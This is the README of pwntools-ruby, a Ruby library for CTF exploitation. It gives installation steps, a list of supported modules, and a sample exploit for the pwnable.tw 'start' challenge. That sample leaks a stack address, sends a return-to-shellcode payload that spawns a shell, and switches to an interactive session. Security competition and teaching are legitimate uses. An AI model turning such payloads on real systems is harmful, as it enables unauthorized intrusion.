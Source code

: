 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/issues)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/maintainability/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)
[![Dependabot Status](https://api.dependabot.com/badges/status?host=github&repo=peter50216/pwntools-ruby)](https://dependabot.com)
[![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)
<!-- [![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby) -->

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on [pwnable.tw](https://pwnable.tw).

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.arch = 'i386'
context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
[documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

### Install the latest release:
```sh
gem install pwntools
```

### Install from master branch:
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle install && bundle exec rake install
```

### optional

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Supported Features

## Architectures

- [x] i386
- [x] amd64
- [ ] arm
- [ ] thumb

## Modules

- [x] context
- [x] asm
- [x] disasm
- [x] shellcraft
- [x] elf
- [x] dynelf
- [x] logger
- [x] tube
  - [x] sock
  - [x] process
  - [x] serialtube
- [ ] fmtstr
- [x] util
  - [x] pack
  - [x] cyclic
  - [x] fiddling

# Development
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle
bundle exec rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
